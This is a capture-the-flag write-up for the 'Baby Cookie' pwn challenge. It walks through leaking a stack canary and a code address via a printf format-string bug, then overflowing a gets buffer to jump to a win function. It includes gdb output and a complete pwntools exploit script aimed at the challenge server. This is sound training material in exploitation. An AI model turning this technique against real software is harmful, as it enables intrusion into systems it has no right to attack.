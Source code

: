 # Baby Cookie
![](https://img.shields.io/badge/category-pwn-blue)
![](https://img.shields.io/badge/points-100-orange)

## Description
Ok with this guard, there's no way you can smash my stack! Wait! what do you mean there's another bug?

[babycookie.zip](https://ctf.mcpt.ca/media/problem/RRl33SBvcqvkk0FNgeCwBmNcfiISxJCWwaAMDC21raA/babycookie_mKn533H.zip)

## Solution
The `gets` function has a buffer overflow that we can abuse to overwrite the return pointer. But, now there is a stack canary that will terminate the program if we try and do a stack overflow.
```
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```

Luckily for us, we also have a printf format string vulnerability that can be used to read the cookie. The stack canary is on the stack, and contains a `00` in its hex representation, making it easy to spot.

We can set a breakpoint right before the printf, run the program until it pauses, and examine the stack.
```
gdb-peda$ stack 50
0000| 0x7ffe6e73cf70 --> 0x562025b91040 --> 0x400000006 
0008| 0x7ffe6e73cf78 --> 0xf0b5ff 
0016| 0x7ffe6e73cf80 --> 0xc2 
0024| 0x7ffe6e73cf88 --> 0x7ffe6e73cfb7 --> 0x562025b9214000 
0032| 0x7ffe6e73cf90 --> 0x7ffe6e73cfb6 --> 0x562025b921400000 
0040| 0x7ffe6e73cf98 --> 0x562025b9244d (<__libc_csu_init+77>:  add    rbx,0x1)
0048| 0x7ffe6e73cfa0 --> 0x7fcc07000a64 
0056| 0x7ffe6e73cfa8 --> 0x562025b92400 (<__libc_csu_init>:     endbr64)
0064| 0x7ffe6e73cfb0 --> 0x0 
0072| 0x7ffe6e73cfb8 --> 0x562025b92140 (<_start>:      endbr64)
0080| 0x7ffe6e73cfc0 --> 0x7ffe6e73d0c0 --> 0x1 
0088| 0x7ffe6e73cfc8 --> 0x38acfc2c2306b300 
```

It's at position 12, which means the actual offset we must pass to printf should be around 12+4=16. This is because offsets 1-4 of printf will actually read from registers instead of the stack. With some trial and error, we can determine that we should leak number 17.

```
What is your name?
%17$p
Hi 0xf4f6f02aa154000
```

Next, we also have to leak the address of the win function, since the program is now positionally independent. Luckily, a few lines down the stack, we have this, at position 23 (find using trial and error):
```
0136| 0x7ffe6e73cff8 --> 0x562025b922a2 (<main>:        endbr64)
```
This points to the start of main, and the distance between the functions is always the same.

```
gdb-peda$ p main - print_flag
$3 = 0x79
```

Now we have everything we need. First, we leak the canary and main address, and then when we perform our buffer overflow, we overwrite the canary and then the return address. 

Now, we need to figure out how to structure our overflow to contain the cookie. If we advance the program instruction-by-instruction until the `gets` line, we can examine where on the stack it reads onto, and also how far it is until we need to overwrite.
```
=> 0x563a79b953d6 <main+308>:   call   0x563a79b95100 <gets@plt>
   0x563a79b953db <main+313>:   mov    eax,0x0
   0x563a79b953e0 <main+318>:   mov    rcx,QWORD PTR [rbp-0x8]
   0x563a79b953e4 <main+322>:   xor    rcx,QWORD PTR fs:0x28
   0x563a79b953ed <main+331>:   je     0x563a79b953f4 <main+338>
Guessed arguments:
arg[0]: 0x7ffc606759e0 --> 0xc2 
```
This shows us that `gets` will start reading to this stack address. We can then count how far down the cookie and return address is, staring from this address.

```
gdb-peda$ stack 25
0000| 0x7ffc606759d0 --> 0x563a79b94040 --> 0x400000006 
0008| 0x7ffc606759d8 --> 0xf0b5ff 
1   | 0x7ffc606759e0 --> 0xc2 
2   | 0x7ffc606759e8 --> 0x7ffc60675a17 --> 0x563a79b9514000 
3   | 0x7ffc606759f0 --> 0x7ffc60675a16 --> 0x563a79b951400000 
4   | 0x7ffc606759f8 --> 0x563a79b9544d (<__libc_csu_init+77>:  add    rbx,0x1)
5   | 0x7ffc60675a00 ("%17$p %23$p\n")
6   | 0x7ffc60675a08 --> 0x56000a702433 ('3$p\n')
7   | 0x7ffc60675a10 --> 0x0 
8   | 0x7ffc60675a18 --> 0x563a79b95140 (<_start>:      endbr64)
9   | 0x7ffc60675a20 --> 0x7ffc60675b20 --> 0x1 
CAN | 0x7ffc60675a28 --> 0x5ef5e94018a11000 
11  | 0x7ffc60675a30 --> 0x0 
RET | 0x7ffc60675a38 --> 0x7f42abc480b3 (<__libc_start_main+243>:       mov    edi,eax)
```

This tells us that we need to write 9\*8 bytes of garbage, followed by the stack canary, followed by 8 more garbage bytes, and then the return address.

```py
from pwn import *

#p = process("./babycookie")
p = remote("d35bbf2.0x16.ink", 30275)

pay = b'\n'*4 + b'%17$p %23$p'

p.sendline(pay)
p.recvuntil(b"Hi ")
addrs = p.recvuntil(b"\n")[:-1].split(b" ")     # 0xcanary 0xmain_addr\n
canary = int(addrs[0], 16)
main = int(addrs[1], 16)
win = main - 0x79
log.info("Canary: " + hex(canary))
log.info("Main: " + hex(main))
log.info("Win: " + hex(win))
p.recvuntil(b"?\n")

p.send(b'A'*9*8 + p64(canary) + p64(0) + p64(win) + b'\n')   # 9 stack entries + canary + garbage + win
p.interactive()
```


Flag: `CTF{Modern_security_still_has_its_flaws!}`
